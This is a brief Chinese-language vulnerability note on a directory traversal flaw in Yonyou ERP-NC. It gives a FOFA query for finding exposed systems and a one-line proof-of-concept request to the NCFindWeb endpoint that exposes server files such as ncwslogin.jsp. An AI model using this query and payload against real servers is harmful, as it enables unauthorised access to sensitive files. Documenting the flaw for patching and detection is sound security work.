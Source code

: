 # 用友ERP-NC 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

> [!NOTE]
>
> 用友ERP-NC 

##  FOFA

> [!NOTE]
>
> app="用友-UFIDA-NC"

## 漏洞复现

POC为

```
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![](resource/用友ERP-NC-目录遍历漏洞/media/1.png)

查看 ncwslogin.jsp 文件

![](resource/用友ERP-NC-目录遍历漏洞/media/2.png)

## Goby & POC

> [!NOTE]
>
> YongYou ERP-NC directory traversal

![](resource/用友ERP-NC-目录遍历漏洞/media/3.png)